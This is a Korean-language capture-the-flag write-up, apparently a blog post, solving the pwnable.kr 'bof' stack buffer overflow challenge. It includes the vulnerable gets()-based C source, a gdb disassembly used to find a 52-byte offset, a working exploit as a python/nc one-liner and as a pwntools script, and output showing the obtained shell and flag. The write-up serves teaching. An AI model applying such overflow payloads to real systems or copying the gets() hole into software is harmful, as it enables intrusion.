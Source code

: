 ```yaml
---
title: "[pwnable.kr]Toddler/bof"
tags: [pwnable.kr, Toddler's Bottle, writeup]
author: eli_ez3r
key: 20180052
category: write-up
date: 2018-09-13 00:00:00 +0900
modify_date: 2018-09-13
article_header:
  type: cover
  image:
    src: /assets/img/write-up/pwnable_kr.png

---
```


-----

```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

-----

## keyword : Stack Canary

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

### 0x01. Staic Analysis

main에서 func함수를 호출하는데 인자 값으로 `0xdeadbeef`값을 전달한다.

func 함수에서 key값으로 `0xdeadbeef`를 받고, 사용자로 부터 입력 값을 받아 `overflowme` 배열에 저장한다.

<u>이때 overflowme배열은 32byte크기지만, gets함수로 입력을 받아 buffer overflow가 발생한다.</u>

그리고 key값이 `0xcafebabe` 인지 체크하고 맞으면 쉘을 실행한다.

**즉, buffer overflow를 시켜 func함수의 인자 값을 `0xcafebabe`로 변조하면 문제가 풀린다.**

-----

### 0x02. Dynamic Analysis

이제 func함수의 인자 값이 들어가는 스택 주소와, overflowme 배열의 주소의 거리를 구해야한다.

```
gdb-peda$ disas func
Dump of assembler code for function func:
   0x0000062c <+0>:     push   ebp
   0x0000062d <+1>:     mov    ebp,esp
   0x0000062f <+3>:     sub    esp,0x48
   0x00000632 <+6>:     mov    eax,gs:0x14
   0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:    xor    eax,eax
   0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:    call   0x645 <func+25>
   0x00000649 <+29>:    lea    eax,[ebp-0x2c]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   0x650 <func+36>
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:    jne    0x66b <func+63>
   0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:    call   0x665 <func+57>
   0x00000669 <+61>:    jmp    0x677 <func+75>
   0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:    call   0x673 <func+71>
   0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:    je     0x688 <func+92>
   0x00000683 <+87>:    call   0x684 <func+88>
   0x00000688 <+92>:    leave
   0x00000689 <+93>:    ret
End of assembler dump.
```

`func+29` 부분을 보면 oeverflowme 배열의 주소를 eax에 저장하는데, `overflowme` 배열의 주소는 `ebp-0x2c` 이다. (0x2c = 44)

그리고 `func+40` 부분을 보면 func함수의 인자 값과 `0xcafebabe`와 비교하는데 이때 인자 값의 주소는 `ebp+0x8` 이다.

**따라서 overflowme 배열과 key값(func함수의 인자 값)의 주소의 거리는 52byte가 된다.**

-----

### 0x03. Exploit

그럼 이제 52byte의 쓰레기 값을 넣고, `0xcafebabe` 값을 넣어 `0xdeadbeef` 값을 변조시키자.

```
root@ubuntu:~/pwnable/bof# (python -c 'print "A"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
cat flag
daddy, I just pwned a buFFer :)
```

끄읏 :)

-----

##### python

```python
from pwn import *

conn = remote("pwnable.kr", 9000)

payload = "A"*52
payload += p32(0xcafebabe)

conn.sendline(payload)
conn.interactive()
```

```
root@ubuntu:~/pwnable/bof# python ex.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls -l
total 3748
-r-xr-x--- 1 root bof     7348 Sep 12  2016 bof
-rw-r--r-- 1 root root     308 Oct 23  2016 bof.c
-r--r----- 1 root bof       32 Jun 11  2014 flag
-rw------- 1 root root 3812010 Nov 14 21:45 log
-rw-r--r-- 1 root root       0 Oct 23  2016 log2
-rwx------ 1 root root     760 Sep 11  2014 super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```

-----